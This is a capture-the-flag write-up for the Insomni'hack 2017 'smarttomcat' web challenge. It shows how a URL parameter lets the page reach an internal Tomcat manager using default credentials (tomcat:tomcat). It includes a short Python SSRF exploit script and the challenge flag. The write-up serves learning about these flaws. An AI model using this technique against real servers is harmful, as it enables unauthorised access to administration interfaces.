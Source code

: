 ```yaml
---
title: INST17 - smarttomcat (Web 50)
categories:
  - INST17
author_member: avarx
show_comments: false
---
```



# created by xel/grimmlin

>Normal, regular cats are so 2000 and late, I decided to buy this allegedly smart tomcat robot
Now the damn thing has attacked me and flew away. I can't even seem to track it down on the broken search interface... Can you help me ?

![website](/images/INST17/INST17_website.png "website")

We can submit coordinates to find the cat.
If we check the source code we can see that a **POST** is done to **index.php** with **localhost:8080** and a **jsp** file as **u-parameter**.

![source](/images/INST17/INST17_source.png "source")


Together with the task title we assume it's a **tomcat**.
Tomcat's got that [**manager**](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html). Let's try **standard credentials**:


```
#!/usr/bin/env python

import requests
import re

TARGET_URL = 'http://smarttomcat.teaser.insomnihack.ch/'
TOMCAT_USER = 'tomcat'
TOMCAT_PASS = 'tomcat'
PAYLOAD = "http://"+TOMCAT_USER+":"+TOMCAT_PASS+"@localhost:8080/manager/html"

answer = requests.post(TARGET_URL, data={'u':PAYLOAD})
flag = re.findall(r"(INS\{...+\})", answer.text)

print(flag[0])
```
**INS{th1s_is_re4l_w0rld_pent3st}**


